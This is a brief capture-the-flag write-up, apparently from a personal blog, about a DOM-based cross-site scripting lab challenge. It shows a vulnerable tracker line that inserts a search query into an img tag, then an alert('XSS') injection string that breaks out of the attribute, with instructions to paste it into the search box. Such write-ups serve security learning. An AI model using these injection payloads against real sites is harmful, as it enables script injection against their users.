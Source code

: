 ```yaml
---
date: 2025-01-15
categories: [CTF, IML]
title: "IML - Cross-Site Scripting: Ep.4 – DOM-Based XSS"
tags: ['privilege escalation', 'rce', 'xss']

description: "Cross-Site Scripting Ep.4 – D - A walkthrough of the challenge with enumeration, exploitation and privilege escalation steps."
---
```


---
---

# IML - Cross-Site Scripting: Ep.4 – DOM-Based XSS


![image1](../resources/67d569a52546432e9ab3078c02172071.png)

![image2](../resources/5ab24e8e01f04e53aafdcb9682f2fef3.png)

**<u>Original query:</u>**
```bash
var tracker = '<div hidden><img src="/resources/search_assets/search.gif?query=' + query + '"></div>'

```
**<u>Inject the following:</u>**
```bash
'"\>\<script\>alert('XSS')\</script\>\<"'

```
**<u>Malicious query:</u>**
```bash
var tracker = '<div hidden><img src="/resources/search_assets/search.gif?query=' + '"><script>alert('XSS')</script><"' + '"></div>'

```
Paste entire malicious code above into Search box

![image3](../resources/d391ec42b4634412a55705b92b912c33.png)


![image4](../resources/709124b3a54f47a28161d72ce125a907.png)